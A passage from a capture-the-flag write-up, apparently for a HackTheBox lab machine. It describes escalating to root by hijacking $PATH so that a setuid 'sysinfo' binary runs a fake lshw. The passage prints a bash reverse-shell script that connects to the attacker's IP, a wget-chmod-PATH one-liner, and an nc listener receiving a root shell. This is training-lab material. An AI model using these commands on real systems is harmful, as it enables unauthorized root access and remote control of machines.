 Whilst searching for each of these commands, this article caught my eye: https://hackerone.com/reports/426944
This article details a trusted $PATH vulnerability that exists in another application, but further reading shows it is also applicable in this case.
  
*. keybase-redirector is a setuid root binary. keybase-redirector calls the fusermount binary using a relative path and the application trusts the value of $PATH. This allows a local, unprivileged user to trick the application to executing a custom fusermount binary as root.*
  
As can be seen above, the programs executed to retrieve the information in this binary are also being called using their relative path. This means if I create my own program with the same name as lshw/fdisk/cat/free with whatever I want to do in it, modify the system PATH, and then run sysinfo, it should execute my program instead.

### 7. Escalate to root
Firstly I create a small bash script that will act as the substitute for the real lshw command:
```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.15.116/8888 0>&1
```
All it does is connect back to me. I host this via a HTTP server on my machine. I can start my listener, then in a single line I will wget this file, give it execute permission, change the PATH variable to use /tmp first (where I'm doing this from), and run sysinfo.
```bash
theseus@ubuntu:/tmp$ wget http://10.10.15.116:8000/lshw && chmod +x lshw && export PATH=/tmp:$PATH && /bin/sysinfo
--2020-08-13 22:10:45--  http://10.10.15.116:8000/lshw
Connecting to 10.10.15.116:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 56 [application/octet-stream]
Saving to: ‘lshw’

lshw                                               100%[==============================================================================================================>]      56  --.-KB/s    in 0s      

2020-08-13 22:10:45 (9.80 MB/s) - ‘lshw’ saved [56/56]

====================Hardware Info====================


```
Catch the shell when it connects.
```bash
kali@kali:~/Desktop/htb/magic$ nc -lvnp 8888
Listening on 0.0.0.0 8888
Connection received on 10.10.10.185 35036
root@ubuntu:/bin# whoami
whoami
root
```
